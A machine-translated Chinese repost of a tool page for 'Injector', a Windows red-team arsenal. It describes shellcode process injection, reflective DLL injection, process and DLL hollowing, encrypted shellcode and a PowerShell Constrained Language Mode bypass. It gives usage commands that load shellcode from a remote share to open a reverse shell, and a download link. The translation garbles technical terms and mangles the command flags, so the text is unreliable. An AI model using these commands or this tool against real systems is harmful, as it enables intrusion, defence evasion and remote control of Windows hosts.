

# injector:Windows 中用于红队的完整内存注入和其他技术库

> 原文：<https://kalilinuxtutorials.com/injector/>

Injector 是一个完整的内存注入和其他红队技术的武器库。

**注射器是做什么的？**

*   对位于远程服务器和本地存储的外壳代码的进程注入支持。只需指定外壳代码文件，它会做剩下的工作。默认情况下，它将注入 notepad.exe，如果没有找到，它将创建一个记事本进程，并注入持久化。
*   用于 DLL 注入的反射 DLL 注入。它下载 DLL 并注入远程进程。
*   通过 svchosts.exe 处理镂空
*   使用-bypass 标志，它倾向于为进程注入使用更高级的未记录的 API，并且例程本身会发生变化。
*   现在甚至支持加密外壳代码，即 AES 加密和异或加密外壳代码现在得到支持。要加密外壳代码，请使用 Helper.exe 以保持一致性。
*   支持 powershell 的 CLM 旁路。只需将它放到一个白名单文件夹中，在那里您可以执行 C#二进制文件，例如 C:\Windows\Tasks
*   现在支持 DLL 挖空。DLL 挖空是通过 dll_hollow.dll 实现的！因此，如果您最终使用这种模式，请确保 dll 和 exe 在同一个位置。

**C:\ Users \ admin>Injector.exe
Xenon 帮助选项:
-m 操作模式
-m 1 指定模式为进程注入
-m 2 指定模式为反射 DLL 注入
-m 3 指定模式为进程空洞
-m 4 无注入！给我该死的 shell
-通过 CLM 旁路的 m 5 Powershell 会话
-m 6 DLL 挖空
-当前用户可以读取的 TempFile 文件位置
-外壳代码使用外壳代码
-dll 使用 DLL
-解密-xor 指定外壳代码的 xor 解密
-pass 指定 Xor 解密的密码
-decrypt-aes 指定外壳代码的 aes 解密
-pass 指定 aes 解密的密码
-位置**

要生成加密的外壳代码，请在 kali 上使用 Helper.exe 和适当的开关。

**用法示例**

**Injector.exe-m = 1-外壳代码-加密-AES-pass =密码-位置= " \ 192 . x . x . x \ share \外壳代码. txt "-绕过**

这将解密你的外壳代码，并给你反向外壳。旁路标志的存在指示注入器使用一些其他方法来获得反向外壳，即使用一些未记录的 Win API。

如果你不想使用加密的外壳代码，你也可以像下面这样简单地运行它

**Injector.exe-m = 1-外壳代码-位置= " \ 192 . x . x . x \ share \外壳代码. txt"**

只需将-m=1 改为 2，3，4，6 即可运行其他模式。

**Injector.exe-m = 5-TempFile = C:\ Users \ user \ sample . txt**

这将给你一个会话，你可以执行 IEX 摇篮，并得到一个适当的反向外壳，从而绕过 CLM。

[**Download**](https://github.com/0xDivyanshu/Injector#help-me-with-antivirus)